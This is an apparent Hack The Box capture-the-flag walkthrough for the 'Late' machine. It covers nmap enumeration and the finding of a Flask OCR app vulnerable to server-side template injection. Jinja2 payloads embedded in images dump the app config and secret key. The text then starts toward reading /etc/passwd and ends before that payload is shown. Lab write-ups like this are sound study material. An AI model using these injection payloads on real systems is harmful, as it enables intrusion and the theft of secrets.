



# 🕑 Late



Link: [https://app.hackthebox.com/machines/463](https://app.hackthebox.com/machines/463)

### Nmap Scan

Let's start with enumeration with Nmap: `nmap -sS -A -sC -sV -T5 -oN scan.txt 10.129.132.140`

```
Nmap scan report for 10.129.132.140
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   83.66 ms 10.10.14.1
2   83.65 ms 10.129.132.140
```

Port 22 & 80 are open. HTTP is hosted on `Port 80`

Let's visit that in our browser

### Port 80


By seeing the website there isn't that much.

I found one link in the source code


To visit that page, we have to add `images.late.htb`  to our `HOST`



after editing `/etc/hosts` and adding our machine's IP we are good to do.

### images.late.htb


This page converts any image to text like on OCR. So, let's upload an image and let's check the response


The output 👇

```
<p>If you want to turn an image into a text document, you came to the right place.
</p>
```

Here we can see that it has extracted the text from the image.


This image-to-text only detects some of the fonts I am currently using - `ms word - font - bahnschrift landscape` if this does not work try changing the fonts and size




Here we can see in the heading its written "flask" (information disclosure). From my previous experiences most of the flask-based application are vulnerable to SSTI

Let's try to upload an image containing SSTI payload \{{7\*7\}} and check the response


```
<p>49
</p>
```

Yess! It's vulnerable to SSTI.&#x20;

Check this source for SSTI [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)&#x20;

Let's try `{{congif.items()}}`

.png>)

Response 👇

```
<p>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, b&#39;_5#y2L&#34;F4Q8z\n\xec]/&#39;), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, False), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, None), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])
</p>
```

But there weren't any important or useful files

Let's Check the passwd file so we can get the usernames. Use the payload listed here&#x20;
